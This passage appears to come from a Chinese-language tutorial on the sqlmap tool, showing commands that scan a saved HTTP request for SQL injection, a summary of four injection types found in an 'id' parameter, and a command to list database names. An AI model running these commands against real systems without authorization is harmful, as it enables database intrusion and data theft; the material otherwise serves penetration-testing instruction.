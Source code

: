 ![Alt text](image-3.png)
### 2.4 对`Injection.txt`请求文件中的请求进行扫描，判断是否存在注入漏洞
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt"
```
![Alt text](image-4.png)   
**结果说明：** 
（1）GET请求中的id参数存在SQL注入漏洞。   
（2）扫描成功的类型有：布尔盲注，报错注入，时间盲注，联合注入
### 2.5 进一步获取数据库名
```shell
 sqlmap -r "/Users/wan/Desktop/Injection.txt" -p "id" --batch --dbs
```